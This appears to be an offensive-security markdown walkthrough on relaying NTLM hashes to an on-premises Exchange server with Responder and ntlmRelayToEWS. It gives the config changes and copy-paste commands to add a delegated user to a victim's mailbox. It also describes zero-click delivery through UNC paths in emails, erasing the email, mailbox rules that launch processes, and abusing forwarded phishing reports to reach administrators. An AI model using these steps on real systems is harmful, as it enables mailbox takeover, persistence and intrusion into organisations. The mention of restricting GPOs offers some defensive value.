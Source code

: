 ```yaml
---
title: Exchange Mailbox Access Delegation
---
```


## What is this about?
This is an NTLM relay attack pointed towards an Exchange server to do some stuff on the user's page.

## The setup
We're going to need 2 terms, one for Responder, one for the relay script.

### The Responder part
[This](https://github.com/lgandx/Responder) is the tool to setup for this part. You'll need to change the SMB/HTTP [config](https://github.com/lgandx/Responder/blob/master/Responder.conf) to Off though.
```
; Servers to start
SQL = On
SMB = Off <- change this
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off <- change too
HTTPS = On
DNS = On
LDAP = On
```
You can now run your Responder with a basic
```
./Responder.py -I <your interface> -rv
```
You could throw in a -P, -w or a -b too but hey, lets keep it simple you're going to copy paste this anyway without RTFM...

### The Relaying part
Get [this](https://github.com/Arno0x/NtlmRelayToEWS) script and read the Usage. We're going for the addDelegate option. This means you'll be adding a delegated access to any given mailbox to a 3rd party user, which is usually a thing to have someone manage their calendar, emails, appointments, ...

By running the following copy pasted command you'll start the relaying server that will use the hash sent to it by Responder to identify as a user and add a delegated user to the given mailbox.
```
./ntlmRelayToEWS.py -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r addDelegate -d delegated.address@corporate.org
```
This is why you had to turn off the SMB/HTTP server on Responder, since it isn't there to get the hash and send it to itself, but to relay it to the Exchange server

### The Best part

This also works through emails on misconfigured on-prem Exchange servers + missing hardening on endpoints, with basic UNC paths like *file://your-responder-ip/whatever* in the email body. This works on distant servers too, if the [matching](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-outgoing-ntlm-traffic-to-remote-servers) [GPOs](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-ntlm-authentication-in-this-domain) aren't set. You can then relay the hash to the Exchange server and get a delegated access to the mailbox of anyone pwned *BY JUST RECEIVING AN EMAIL*. Next step is simply an auto erase the email from the mailbox or setting a new rule to auto run a process when receiving a specific email. All of this thanks to Outlook preview option ;)

Another fun *been there done that* one? You know what happens when one of your users forwards an email to your security/IT team to "know if it's phishing or something"? Yep the sender's email is not *external* to your company anymore. This means the whitelisting and checks probably won't be the same and the *internal* sender might go through different rules than for an external sender.
Yup, you have now pwned a random user and also users with potential admin access even without knowing their email address or sending them anything because a user *relayed* the email to them. 

Pwned by relayception! :D